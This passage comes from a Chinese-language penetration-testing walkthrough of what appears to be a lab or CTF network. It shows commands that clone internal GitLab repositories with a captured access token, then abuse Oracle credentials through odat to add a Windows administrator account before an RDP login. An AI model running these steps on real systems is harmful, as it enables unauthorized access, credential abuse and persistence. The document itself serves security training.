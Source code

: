 [![](assets/1706233449-1661a75ea63c9d0c456246360d7ec360.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124143511-b940e674-ba82-1.png)

```plain
proxychains git clone http://gitlab.xiaorang.lab:glpat-7kD_qLH2PiQv_ywB9hz2@172.22.14.16/xrlab/internal-secret.git 
proxychains git clone http://gitlab.xiaorang.lab:glpat-7kD_qLH2PiQv_ywB9hz2@172.22.14.16/xrlab/xradmin.git 
proxychains git clone http://gitlab.xiaorang.lab:glpat-7kD_qLH2PiQv_ywB9hz2@172.22.14.16/xrlab/awenode.git 
proxychains git clone http://gitlab.xiaorang.lab:glpat-7kD_qLH2PiQv_ywB9hz2@172.22.14.16/xrlab/xrwiki.git 
proxychains git clone http://gitlab.xiaorang.lab:glpat-7kD_qLH2PiQv_ywB9hz2@172.22.14.16/gitlab-instance-23352f48/Monitoring.git
```

接下来将内容拖下来

[![](assets/1706233449-52d6c3ff74cd7b51b58d5f20921f7f3f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124143518-bd5b7fda-ba82-1.png)

发现一个存储大量用户名和密码的，可能待会需要爆破

[![](assets/1706233449-75052494c969e317a33e33599d8306c8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124143524-c1114092-ba82-1.png)

在`yml`文件中发现`Oracle`数据库账密

[![](assets/1706233449-89c9a29f390ee03073b316dc63544a9b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124143532-c5edc662-ba82-1.png)

### Oracle 连接

尝试使用 mdut 连接

[![](assets/1706233449-a72ee5d69a8cd36b63f3b964fbb184fd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124143540-ca7991b6-ba82-1.png)

但连接过后无法使用 (会报错)，试了试 Navicat 也长时间无响应。只能换其他工具了，使用`odat`进行连接，`odat`支持执行命令，我们这里直接添加用户

```plain
proxychains odat dbmsscheduler -s 172.22.14.31 -p 1521 -d ORCL -U xradmin -P fcMyE8t9E4XdsKf --sysdba --exec 'net user qwq Qq123456. /add'
proxychains odat dbmsscheduler -s 172.22.14.31 -p 1521 -d ORCL -U xradmin -P fcMyE8t9E4XdsKf --sysdba --exec 'net localgroup Administrators qwq /add'
```

[![](assets/1706233449-592c7e705f628776904a9119cf36ed99.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124143550-d078b9d4-ba82-1.png)

RDP 连接

[![](assets/1706233449-ba23e2116d329378a26ddf22f274d219.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124143556-d4732790-ba82-1.png)

## 攻击域成员二 (SeRestorePrivilege 提权)

我们刚刚获取的大量用户名密码还没用，将数据提取出来
